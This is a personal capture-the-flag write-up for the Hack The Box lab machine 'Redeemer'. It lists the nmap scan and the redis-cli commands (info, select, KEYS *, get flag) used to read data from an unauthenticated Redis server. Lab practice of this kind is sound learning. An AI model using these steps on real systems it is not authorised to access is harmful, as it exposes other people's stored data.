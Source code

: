## Box: [Redeemer] — Started: 2025-10-05 22:10

**IP/Host:** `HTB Attackbox`  |  **Status:** `Owned 25-10-05`

### TL;DR

Initial: `redis-cli -h IPADDR`.
Path to Flag Cap:
**NOTE**: Denoting full path to flag cap here because Redis's command structure is a tad arcane if you're not used to it
- `info` - gets all database information, including the keyspace. Technically, I actually used the `info keyspace` command, which told me the keyspace info more directly
- `select 0` - to select `db0` from the `info keyspace` results
- `KEYS *` - list all keys in currently selected db
- `get flag` - get the string at key named "flag", which was the flag for this box

*Cumulative Impact Overview*:
- `redis-cli` practice

### Exploit Lifecycle

1. *Validation & Recon*: HTB CTF
2. *Enumeration & Scanning*:
    - `nmap -sV -p- 10.129.204.92` - found port 6379, a redis port
3. *Findings & Exploits*:
    - `redis-cli -h IPADDR` - connect to redis host at IPADDR
4. *PrivEsc*: N/A
5. *Post-Exploitation*: 
    - - `info` - gets all database information, including the keyspace. Technically, I actually used the `info keyspace` command, which told me the keyspace info more directly
    - `select 0` - to select `db0` from the `info keyspace` results
    - `KEYS *` - list all keys in currently selected db
    - `get flag` - get the string at key named "flag", which was the flag for this box

*Proof — path to flags/screenshot of boxpwn*:

![[Pasted image 20251005220644.png]]

### Findings
Use espanso command, `:finding`, then remove `UNCONFIRMED` as findings are POCd and remove RMRK with remarks

- *UNCONFIRMED - Found*: PORT - IPADDR - 2025-10-04 23:35:22 - RMRK


### Commands Learned or Commands Used
```bash
$ redis-cli -h IPADDR             # connect to host
10.129.157.24:6379> info          # get info on db, can also specify information you need, like `info keyspace`
10.129.157.24:6379> select 0      # select db
10.129.157.24:6379> KEYS *        # list available keys
10.129.157.24:6379> get keyname   # get string of keyname
```

